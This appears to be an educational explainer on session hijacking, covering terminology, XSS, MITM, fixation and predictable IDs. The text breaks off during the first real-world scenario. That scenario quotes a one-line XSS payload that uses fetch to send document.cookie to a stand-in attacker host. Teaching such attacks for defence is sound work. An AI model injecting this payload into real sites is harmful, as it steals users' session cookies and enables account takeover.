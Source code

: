 Session hijacking is a critical cybersecurity threat where an attacker gains unauthorized access to a user's session by stealing or manipulating session identifiers, such as cookies or tokens. Below, I’ll explain the terminology, mechanisms, scenarios, and how to detect and prevent session hijacking, including code examples for Static Application Security Testing (SAST) and guidance for Dynamic Application Security Testing (DAST). I’ll also provide medium to advanced interview questions.

---

### **Terminology Related to Session Hijacking**

1. **Session**: A temporary interaction between a user and a web application, identified by a unique session ID (e.g., stored in a cookie or URL parameter).
2. **Session Identifier**: A unique token (e.g., `PHPSESSID`, `JSESSIONID`) that authenticates a user’s session.
3. **Session Hijacking**: An attack where an attacker steals or manipulates a session identifier to impersonate a legitimate user.
4. **Cookies**: Small data files stored on the client’s browser to maintain session state.
5. **Man-in-the-Middle (MITM)**: An attack where the attacker intercepts communication between the client and server to steal session data.
6. **Cross-Site Scripting (XSS)**: An attack where malicious scripts are injected into a website to steal session cookies.
7. **Session Fixation**: An attack where the attacker tricks a user into using a predetermined session ID, which the attacker can then use.
8. **Secure Flag**: A cookie attribute that ensures the cookie is only sent over HTTPS.
9. **HttpOnly Flag**: A cookie attribute that prevents client-side scripts (e.g., JavaScript) from accessing the cookie.
10. **SameSite Attribute**: A cookie attribute that controls whether cookies are sent with cross-site requests, mitigating CSRF and some session hijacking risks.

---

### **How Session Hijacking Happens**

Session hijacking occurs when an attacker gains access to a valid session identifier and uses it to impersonate the user. Common methods include:

1. **Stealing Session IDs**:
   - Via **XSS**: Injecting malicious JavaScript to steal cookies (e.g., `document.cookie`).
   - Via **MITM**: Intercepting unencrypted traffic (e.g., over HTTP) to capture session IDs.
   - Via **Packet Sniffing**: Capturing network traffic on unsecured Wi-Fi to steal session tokens.
2. **Session Fixation**: The attacker provides a pre-set session ID to the user, which the application accepts after authentication.
3. **Predictable Session IDs**: If session IDs are generated predictably (e.g., incremental numbers), attackers can guess valid IDs.
4. **Side-Channel Attacks**: Exploiting vulnerabilities like weak random number generation or improper session management.

---

### **Two Real-World Scenarios Leading to Session Hijacking**

1. **Scenario 1: XSS Attack Stealing Session Cookies**
   - **Description**: A web application has an XSS vulnerability in a user input field (e.g., a comment section). An attacker injects a malicious script that sends the user’s session cookie to a server controlled by the attacker.
   - **How It Happens**:
     - The user visits a page with the injected script (e.g., `<script>fetch('https://attacker.com/steal?cookie=' + document.cookie)</script>`).
     - The script executes in the user’s browser, sending the session cookie to the attacker.
     - The attacker uses the stolen cookie to authenticate as the user.
   - **Impact**: The attacker gains full access to the user’s account, potentially leading to data theft or unauthorized actions.
